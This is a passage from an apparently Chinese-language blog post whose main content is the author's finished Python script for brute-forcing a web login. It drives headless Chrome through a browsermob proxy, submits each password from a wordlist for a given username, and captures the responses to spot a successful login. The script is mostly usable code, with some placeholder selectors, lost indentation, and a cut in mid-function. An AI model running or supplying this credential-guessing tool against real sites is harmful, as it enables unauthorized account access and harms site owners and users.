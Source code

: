 好了这里基本上解决了所以的坑点, 但是实际的坑点很多, 我只是把主要的几点放出来讲了一下, 最终代码:

```
import os
import argparse
import sys
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.desired_capabilities import DesiredCapabilities
from browsermobproxy import Server
from selenium.webdriver.chrome.options import Options
class Brower_scan():
def __init__(self,url,username,password_dir):
self.url = url
self.response_result = []
self.result={}
self.init_browsermobproxy()
self.init_chrome()
self.init_dict_list(username,password_dir)
self.result_handing()
self.end_env()
def init_dict_list(self,username,password_dir):
with open(password_dir,"r") as f:
self.password_list = f.readlines()
for password in self.password_list:
self.fill_out_a_form(username,password.replace('\n',''))
self.wget_response()
def init_browsermobproxy(self):
self.server = Server("browsermob-proxy-2.1.4\\bin\\browsermob-proxy.bat")#browermobproxy文件的位置
self.server.start()
self.proxy = self.server.create_proxy()
self.chrome_options = Options()
self.chrome_options.add_argument("–incognito")
self.chrome_options.add_argument('--proxy-server={0}'.format(self.proxy.proxy))
self.chrome_options.add_argument('--headless')#这里加了一个参数,不启动chrome浏览器,省去了启动的时间,更快了
def init_chrome(self):
try:
self.chrome = webdriver.Chrome(chrome_options=self.chrome_options)
self.proxy.new_har("test", options={'captureContent': True, 'captureHeaders': True})
self.chrome.get(self.url)
except Exception as e:
print("Chrome浏览器启动失败！\n")
return 0
def fill_out_a_form(self,username,password):
print(password)
self.chrome.find_element_by_css_selector("[class='class_name']").clear()#清空username输入框的标签

self.chrome.find_element_by_css_selector("[class='ivu-input ivu-input-large ivu-input-with-prefix']").send_keys(
username)#输入用户名
self.chrome.find_element_by_css_selector("[class='ivu-input ivu-input-large ivu-input-with-prefix ivu-input-with-suffix']").clear()#清空password输入框的标签
self.chrome.find_element_by_css_selector(
"[class='class_name']").send_keys(password)#输入用户名
self.chrome.find_element_by_css_selector("[class='class_name']").send_keys(Keys.RETURN)#点击登录

def wget_response(self):
result = self.proxy.har
for entry in result['log']['entries']:
_url = entry['request']['url']
if "password" in _url and "username" in _url:
_response = entry['response']
_content = _response['content']
# 获取接口返回内容
```